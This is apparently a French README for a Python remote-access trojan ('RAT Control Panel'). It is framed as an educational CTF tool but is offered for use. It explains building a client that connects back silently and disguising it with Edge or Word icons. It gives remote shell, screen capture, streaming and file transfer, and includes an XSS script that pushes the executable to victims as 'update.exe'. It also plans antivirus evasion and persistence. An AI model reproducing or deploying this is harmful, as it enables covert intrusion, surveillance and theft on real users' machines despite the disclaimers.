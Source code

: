 🐀 RAT Control Panel

Bienvenue dans RAT Control Panel, un outil éducatif de Remote Administration Tool (RAT) conçu pour les environnements de test de sécurité, les compétitions CTF, ou les laboratoires d'apprentissage. Ce projet fournit un serveur, un client, et une interface graphique intuitive pour exécuter des commandes à distance, capturer des écrans, diffuser en temps réel, et plus encore, avec une touche de discrétion grâce à la personnalisation des icônes.

⚠️ Avertissement : Cet outil est destiné à un usage éthique et autorisé uniquement. L'utilisation non autorisée est illégale. Veillez à respecter les lois et à obtenir un consentement explicite avant tout déploiement.


✨ Fonctionnalités

Exécution de commandes à distance : Lancez des commandes shell sur le client (ex. whoami, dir).
Capture d'écran : Prenez des instantanés de l'écran du client, enregistrés en JPEG.
Streaming en temps réel : Diffusez l'écran du client avec un faible décalage (10 FPS).
Transfert de fichiers : Téléchargez ou envoyez des fichiers entre le serveur et le client.
Chiffrement sécurisé : Toutes les communications sont chiffrées avec cryptography (Fernet).
Interface graphique : Une UI conviviale (tkinter) pour démarrer le serveur, configurer l'IP, et compiler le client.
Personnalisation discrète : Compilez le client avec une icône personnalisée (à partir de .png) pour plus de discrétion.
Connexion automatique : Le client se connecte directement au serveur sans interaction utilisateur.


🛠️ Prérequis
Avant de commencer, assurez-vous d'avoir :



Prérequis
Description



Python 3.8+
Téléchargez depuis python.org.


Système d'exploitation
Windows (client et serveur nécessitent un environnement graphique).


Réseau
Port 4444 ouvert sur le serveur, avec port forwarding si nécessaire.


Image .png
Une icône (32x32 ou 64x64 pixels) pour personnaliser l'exécutable du client.



📦 Installation
Suivez ces étapes pour configurer le projet :

Cloner le projet (ou téléchargez les fichiers) :
```bash
git clone https://github.com/Toragp28/ratatouille-beta.git
```

Installer les dépendances :Exécutez la commande suivante pour installer toutes les bibliothèques nécessaires :
```bash
pip install Pillow opencv-python cryptography pyinstaller
```

💡 tkinter est inclus avec Python. Si vous rencontrez des erreurs, vérifiez votre installation Python.


Préparer les fichiers :

Placez ui.py, server.py, et client.py dans le même dossier.
Obtenez une image .png pour l'icône (par exemple, téléchargez depuis IconArchive ou créez-en une avec GIMP).


Configurer le réseau :

Ouvrez le port 4444 sur le serveur :
```bash
netsh advfirewall firewall add rule name="RAT" dir=in action=allow protocol=TCP localport=4444
```

Si vous utilisez une IP publique, configurez le port forwarding sur votre routeur.




🚀 Utilisation
1. Lancer l'interface graphique
Exécutez l'interface pour configurer et contrôler le RAT :
```bash
python ui.py
```
L'interface affiche :

Un champ pour entrer l'adresse IP du serveur.
Un bouton pour démarrer le serveur.
Un bouton pour importer une icône (.png).
Un bouton pour compiler le client.
Une zone de logs pour suivre les actions.

2. Démarrer le serveur

Cliquez sur "Démarrer le serveur" dans l'interface.
Les logs affichent :
```bash
Serveur démarré sur 0.0.0.0:4444
Adresses IP locales : 192.168.1.100, ...
```

Notez l'IP affichée (par exemple, 192.168.1.100) pour l'étape suivante.

3. Configurer l'adresse IP

Dans le champ Adresse IP du serveur, entrez l'IP notée (par exemple, 192.168.1.100).
Si vous utilisez une IP publique, assurez-vous que le port 4444 est accessible.

4. Importer une icône

Cliquez sur "Importer une icône (.png)".
Sélectionnez un fichier .png (idéalement 32x32 ou 64x64 pixels).
L'interface convertit automatiquement le .png en .ico et affiche :
```bash
Icône importée et convertie : edge.png -> temp_icon.ico
```



💡 Utilisez une icône légitime (par exemple, Microsoft Edge, Word) pour rendre l'exécutable discret.

5. Compiler le client

Cliquez sur "Compiler le client".
L'interface :
Met à jour client.py avec l'IP saisie.
Compile client.py en dist/client.exe avec PyInstaller, en utilisant l'icône importée.
Supprime le fichier .ico temporaire.


Les logs confirment :
```bash
client.py modifié avec SERVER_HOST = 192.168.1.100
Compilation réussie. Exécutable généré dans dist/client.exe
```


6. Tester le client

Copiez dist/client.exe sur un PC client (Windows avec interface graphique).
Exécutez :
```bash
client.exe
```

L'exécutable affiche l'icône personnalisée et se connecte automatiquement au serveur.
Sur le serveur, entrez des commandes dans la console (ouverte automatiquement) :
```bash
whoami
screenshot
stream
```

screenshot : Enregistre received_screenshot.jpg.
stream : Affiche l'écran du client en temps réel (appuyez sur q pour arrêter).



7. Déploiement via XSS (optionnel)
Pour distribuer client.exe via une vulnérabilité XSS (dans un cadre éthique) :

Hébergez client.exe :
```bash
python -m http.server 8080
```
```bash
Injectez via XSS :<script>
    window.location = 'http://votre-serveur:8080/client.exe';
</script>
```

L'icône personnalisée rend l'exécutable plus convaincant (par exemple, renommez-le update.exe).


⚠️ Restez dans un cadre légal (CTF, bug bounty). L'utilisation non autorisée est illégale.


📋 Exemple de logs dans l'UI
```bash
Thu May 15 17:00:00 2025: Démarrage du serveur...
Thu May 15 17:00:01 2025: Serveur démarré sur 0.0.0.0:4444
Thu May 15 17:00:05 2025: Connexion de 192.168.1.98:54321
Thu May 15 17:00:10 2025: Icône importée et convertie : edge.png -> temp_icon.ico
Thu May 15 17:00:15 2025: client.py modifié avec SERVER_HOST = 192.168.1.100
Thu May 15 17:00:20 2025: Compilation réussie. Exécutable généré dans dist/client.exe
```

🐞 Dépannage



Problème
Solution



Serveur ne démarre pas
Vérifiez que server.py est dans le dossier. Installez les dépendances : pip install Pillow opencv-python cryptography.


Client ne se connecte pas
Vérifiez l'IP saisie. Testez : ping 192.168.1.100 et nc -zv 192.168.1.100 4444.


Icône non appliquée
Assurez-vous d'importer un .png valide. Testez : python -c "from PIL import Image; Image.open('edge.png').show()".


Compilation échoue
Installez PyInstaller : pip install pyinstaller. Vérifiez les logs pour l'erreur.


Streaming/screenshot échoue
Exécutez le client sur un bureau Windows. Testez : python -c "from PIL import ImageGrab; ImageGrab.grab()".



⚖️ Considérations éthiques

Usage autorisé uniquement : Utilisez ce RAT dans des environnements contrôlés (CTF, labs de sécurité).
Légalité : Déployer un RAT sans consentement est illégal. Obtenez toujours une autorisation explicite.
Responsabilité : Signalez les vulnérabilités XSS de manière éthique via des programmes de bug bounty.


🌟 Améliorations futures

Ajouter un bouton pour arrêter le serveur depuis l'UI.
Implémenter l'obfuscation du client avec pyarmor pour éviter la détection antivirus.
Ajouter la persistance (exécution au démarrage) dans l'exécutable client.
Supporter d'autres formats d'image (.jpg, .bmp) pour les icônes.


🙏 Crédits
Développé avec ❤️ pour l'apprentissage de la cybersécurité. Merci à la communauté open-source pour les bibliothèques utilisées :

Pillow
OpenCV
Cryptography
PyInstaller


📧 se programe était super amusent et laide de l'ia a était agréable bisous 

